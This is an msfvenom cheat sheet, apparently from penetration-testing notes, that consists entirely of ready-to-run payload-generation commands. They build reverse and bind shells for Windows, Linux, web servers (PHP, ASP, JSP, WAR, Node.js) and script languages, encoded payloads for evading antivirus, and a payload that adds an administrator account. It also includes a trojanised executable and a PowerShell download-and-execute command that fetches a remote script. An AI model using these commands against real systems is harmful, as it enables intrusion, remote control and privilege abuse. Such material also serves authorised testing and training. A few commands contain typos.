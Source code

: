 MSFVenom Cheatsheet
*********************

Listing
########

Payload

.. code-block:: console

	msvenom -l 

Encoders

.. code-block:: console

	msfvenom -l encoders

Common params when creating a shellcode
##########################################

.. code-block:: console

	-b "\x00\x0a\x0d"
	-f c
	-e x86/shikata_ga_nai -i 5
	EXITFUNC=thread
	PrependSetuid=True #Use this to create a shellcode that will execute something with SUID

Windows
#########

Reverse Shell

.. code-block:: console

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

Bind Shell

.. code-block:: console

	msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe

Create User

.. code-block:: console

	msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

CMD Shell

.. code-block:: console

	msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
        
.. code-block:: console

        msfvenom -p windows/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe

Execute Command

.. code-block:: console

	msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
	msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

Encoder

.. code-block:: console

	msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

Embedded inside executable

.. code-block:: console

	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe

Linux Payloads
################

Reverse Shell

.. code-block:: console

	msfvenom -p linux/x86//meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
	msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

Bind Shell

.. code-block:: console

	msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf

Web Based Payloads
####################

PHP - Reverse Shell

.. code-block:: console

	msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
	cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP/x -- Reverse Shell

.. code-block:: console

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx

JSP - Reverse shell

.. code-block:: console

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp

WAR - Reverse shell

.. code-block:: console

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war

NODEJS - Reverse Shell

.. code-block:: console

	msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)

Script Language payloads
##########################

Perl

.. code-block:: console

	msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl

python

.. code-block:: console

	msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py

Bash

.. code-block:: console

	msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
